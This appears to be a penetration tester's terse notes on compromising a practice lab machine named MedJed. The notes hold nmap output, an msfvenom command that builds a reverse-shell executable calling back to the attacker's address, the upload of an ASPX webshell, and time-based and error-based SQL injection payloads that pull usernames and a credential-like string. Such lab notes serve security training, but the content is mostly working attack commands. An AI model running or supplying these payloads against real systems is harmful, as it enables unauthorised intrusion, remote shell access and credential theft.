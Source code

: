 # MedJed
# date 22/8/2023
# ip 192.168.165.127


# nmap
PORT     STATE SERVICE       REASON  VERSION
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
3306/tcp open  mysql?        syn-ack
8000/tcp open  http-alt      syn-ack BarracudaServer.com (Windows)


# ftp
└─$ ftp 192.168.165.127 30021
anonymous

# webpage 8000
administrator
administrator@gmail.com
set administrator account

http://192.168.165.127:8000/fs/C/Users/Jerren/Desktop/local.txt


# exploitation
└─$ msfvenom -p windows/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.199 LPORT=30021
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx .
upload both file at http://192.168.165.127:8000/fs/C/Users/Jerren/Desktop/


christopher
http://192.168.165.127:33033/users/christopher
http://192.168.165.127:33033/test
http://192.168.165.127:33033/slug/



SELECT username FROM users WHERE username = '' UNION SELECT IF(1=1, SLEEP(5), null)-- -

http://192.168.165.127:33033/slug?URL=%27%20UNION%20SELECT%20IF(1=2,%20SLEEP(5),%20null)--%20-

SELECT username FROM users WHERE username = '' AND 1= (SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -


http://192.168.165.127:33033/slug?URL=%27%20AND%201=%20(SELECT%201%20FROM(SELECT%20COUNT(*),concat(0x3a,(SELECT%20username%20FROM%users%20LIMIT%200,1),FLOOR(rand(0)*2))x%20FROM%20information_schema.TABLES%20GROUP%20BY%20x)a)--%20-

http://192.168.165.127:33033/slug?URL=%27%20AND%201=%20(SELECT%201%20FROM(SELECT%20COUNT(*),concat(0x3a,(SELECT%20reminder%20FROM%20USERS%20LIMIT%200,1),FLOOR(rand(0)*2))x%20FROM%20information_schema.TABLES%20GROUP%20BY%20x)a)--%20-

:4qpdR87QYjRbog1



https://github.com/secjohn/ruby-shells/blob/master/shell.rb